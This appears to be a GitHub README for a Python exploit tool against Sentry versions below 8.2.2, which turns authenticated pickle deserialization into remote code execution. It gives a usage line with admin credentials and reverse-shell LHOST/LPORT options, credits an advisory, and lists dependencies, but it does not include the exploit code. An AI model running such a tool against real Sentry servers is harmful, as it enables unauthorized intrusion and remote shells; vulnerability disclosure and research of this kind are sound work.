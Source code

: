 # Sentry-Authenticated-Remote-Code-Execution
## Sentry &lt; 8.2.2 Pickle Deserialization to RCE

<h4> Discovered By : Clement Berthaux (SYNACKTIV) </h4>
<h4> Advisory Link : https://doc.lagout.org/Others/synacktiv_advisory_sentry_pickle.pdf </h4>
<h4> Exploit DB Link :  </h4>

<h3> Usage : python exploit.py --url `http://<URL>/auth/login/sentry/` -U `username` -P `password` -l `LHOST` -p `LPORT`</h3>
  

usage: exploit.py [-h] [-U U] [-P P] [-l L] [-p P] [--url URL]

Sentry < 8.2.2 Authenticated RCE

optional arguments:
  -h, --help  show this help message and exit
  -U U        Sentry Admin Username / Email
  -P P        Sentry Admin Password
  -l L        Rev Shell LHOST
  -p P        Rev Shell LPORT
  --url URL   Sentry Login URL
              
              
![alt text](https://github.com/[mohinparamasivam]/[Sentry-Authenticated-Remote-Code-Execution]/blob/[main]/usage.png?raw=true)              
              


# Dependencies

<h4>pip install requests</h4>
<h4>pip install bs4</h4>
<h4>pip install argparse</h4>

